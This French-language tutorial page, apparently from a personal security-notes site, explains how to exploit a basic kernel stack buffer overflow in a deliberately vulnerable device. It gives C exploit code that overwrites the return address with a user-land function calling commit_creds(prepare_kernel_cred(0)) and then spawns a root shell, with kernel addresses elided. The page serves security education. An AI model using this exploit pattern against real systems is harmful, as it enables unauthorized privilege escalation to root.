 ```yaml
---
title: Buffer Overflow Basic
date: 2024-02-21
draft: false
description: Technique pour exploiter un buffer overflow basique côté kernel.
categories:
  - attacks
  - kernel
tags:
  - pwn
  - kernel
---
```

## Overview
Tout comme pour une exploitation de **BoF** en user-land, notre objectif va être d'overwrite la return address de la fonction vulnérable pour prendre le contrôle du flow d'exécution. 
On se place ici dans le cas où aucune protection n'est présente au niveau du kernel. 
## Detail
Notre objectif lors de l'exploitation d'un buffer overflow en kernel-land est de réussir a exécuter du code user-land tout en profitant de l'exécution de code kernel-land pour [élever nos privilèges](/pwn/kernel/kernel-privesc).

Ainsi, un schéma d'attaque classique nous donnerait :
1) Exploiter le buffer overflow.
2) Overwrite l'adresse de retour de la fonction vulnérable par l'adresse de la fonction *privesc()*.
	- *privesc()* passe les privilèges du process, lancé par notre binaire *exploit*, a root.
3) Maintenant qu'on a des privilèges root, on peut lancer un *system("/bin/sh")*.
![task_struct](/images/kernel_bof.png)
## Exploit
Pour implémenter cette attaque, on va se mettre dans le cas où on peut interagir avec une device, dont la propriété **write** fait appel à une fonction vulnérable à un buffer overflow. Ainsi, lorsque l'on va *write()* plus de caractères qu'attendu, on va overflow sur la stack kernel.

Pour exploiter cela, on va tout d'abord devoir ouvrir la device pour interagir avec elle.
```c title:open_dev()
int global_fd;

void open_dev(){
  global_fd = open("/dev/vulnDevice", O_RDWR);
	if (global_fd < 0){
		puts("[!] Failed to open device");
		exit(-1);
	} else {
      puts("[*] Opened device");
  }
}
```

Ensuite on va préparer notre fonction *privesc()* que l'on va appeler une fois avoir pris le contrôle sur le flow d'exécution côté kernel.

| Pour mieux comprendre le principe de l'élévation de privilèges côté kernel, allez voir : [Kernel Privesc](/pwn/kernel/kernel-privesc). |
| --- |

```c title:privesc()
unsigned long __attribute__((regparm(3))) (*commit_creds)(unsigned long cred);
unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred)(unsigned long cred);

void privesc(){
  commit_creds = 0xc107...;
  prepare_kernel_cred = 0xc107...;
  commit_creds(prepare_kernel_cred(0));
}
```

Maintenant qu'on a la fonction qui va nous permettre d'élever nos privilèges, on va pouvoir overflow sur la stack kernel et rediriger le flow d'exécution vers cette fonction.
```c title:overflow()
void overflow(){
  // Overlow at 64 bytes
  unsigned long long payload[17] = {0};
  payload[16] = (unsigned long)privesc;

  write(global_fd, payload, sizeof(payload));
}
```

Grâce à cet exploit, nous avons manipulé le kernel pour qu'il passe le process spawn par *exploit* en tant que process root. Il ne nous reste plus qu'à run un *system("/bin/sh")* pour obtenir un shell root.

En résumé, notre exploit final donne quelque chose comme :
```c title:exploit.c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int global_fd;

unsigned long __attribute__((regparm(3))) (*commit_creds)(unsigned long cred);
unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred)(unsigned long cred);

void open_dev(){
  global_fd = open("/dev/vulnDevice", O_RDWR);
	if (global_fd < 0){
		puts("[!] Failed to open device");
		exit(-1);
	} else {
      puts("[*] Opened device");
  }
}

void privesc(){
  commit_creds = 0xc107...;
  prepare_kernel_cred = 0xc107...;
  commit_creds(prepare_kernel_cred(0));
}

void overflow(){
  unsigned long long payload[17] = {0};
  payload[16] = (unsigned long)privesc;
  write(global_fd, payload, sizeof(payload));
}

int main() {
  open_dev();
  overflow();
  system("/bin/sh");
  return 0;
}
```
